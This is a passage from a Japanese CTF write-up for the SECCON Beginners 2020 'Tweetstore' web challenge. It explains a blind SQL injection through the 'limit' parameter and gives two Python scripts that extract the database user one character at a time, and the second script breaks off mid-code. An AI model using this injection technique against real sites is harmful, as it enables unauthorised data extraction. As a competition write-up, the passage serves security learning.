 1文字目が`99`なので`c`、2文字目が`116`なので`t`ということがわかりました。

flagは`ctf4b{ }`という形なのはわかっているので上手くBlind SQLiが出来ていこともわかります。

ですが、一文字ずつ探し当ててやるのは非効率なのでpythonで実行させます。

```python
#!/usr/bin/python3
# -*- coding:utf-8 -*-

#ctf4b2020-web-Tweetstore

import requests

URL = "https://tweetstore.quals.beginners.seccon.jp/"
flag = ""

for i in range(40):
    r = requests.get(
        URL,
        params = {
            "search":"",
            "limit":"ascii(substr(current_user,{},1))".format(len(flag)+1)
        },
    )
    count = r.text.count("Watch@Twitter")
    flag += chr(count)
    if('}' != chr(count)):
     print(flag)
    else:
     break

print()
print('FLAG: ' + flag)
```

asciiコードで一文字ずつ探していき、`}`が見つかれば探すのを終了するプログラムです。

<br><br>

でもアルファベットは全部で48個あるのは変わらないので効率よく探すために48を引いた数で探して最後にasciiコードから文字に戻す時に48を足せば

少なく実行することが出来ます。

なのでプログラムを以下のように少し変えてやれば、さらに効率が良くなります。

```python
#!/usr/bin/python3
# -*- coding:utf-8 -*-

#ctf4b2020-web-Tweetstore

import requests

URL = "https://tweetstore.quals.beginners.seccon.jp/"
flag = ""

for i in range(40):
    r = requests.get(
        URL,
        params = {
            "search":"",
            "limit":"ascii(substr(current_user,{},1))-48".format(len(flag)+1)
        },
    )
    count = r.text.count("Watch@Twitter")
    flag += chr(count + 48)
    if('}' != chr(count + 48)):
```